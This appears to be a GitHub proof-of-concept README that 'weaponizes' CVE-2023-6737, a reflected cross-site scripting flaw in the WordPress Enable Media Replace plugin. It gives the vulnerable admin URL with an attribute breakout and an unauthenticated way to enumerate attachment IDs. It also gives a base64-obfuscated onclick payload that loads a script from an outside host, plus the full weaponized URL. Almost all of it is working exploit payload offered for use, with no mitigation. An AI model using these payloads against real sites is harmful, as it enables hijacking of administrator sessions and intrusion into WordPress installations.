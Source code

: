 https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-6737

>[!note]
> I do not take credit for finding this, I only simply weaponized it as it was missing technical details on exploitation.

## Admin+ Reflected XSS

```
/wp-admin/upload.php?page=enable-media-replace%2Fenable-media-replace.php&action=media_replace&attachment_id=26&SHORTPIXEL_DEBUG=%22+onclick=alert(1)>
```

We have full attribute control and leverage `%22` to breakout of the attribute. Attempting to add remote scripts outside of the html node will result in additional filtering. 

![Screenshot3](screenshot3.png)

### Weaponization of Onclick Attribute

Firstly, you may enumerate attachment IDs via the following (Unauthenticated). A valid attachment ID will provide a valid page. Simply throw in the URL into burpsuite intruder and do a number list to enumerate a valid attachment ID

```
http://localhost:1337/?attachment_id=32
```

> Un-base 64'd script include
```
echo 'var s = document.createElement("script"); s.src = "https://script.com"; document.body.appendChild(s);' | base64
```

> Base64
```
dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK
```


> Malicious Onclick
```
onclick=javascript:eval(atob(`dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK`))
```

> Full URL
```
/wp-admin/upload.php?page=enable-media-replace%2Fenable-media-replace.php&action=media_replace&attachment_id=26&SHORTPIXEL_DEBUG=%22+onclick=javascript:eval(atob(`dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK`))>
```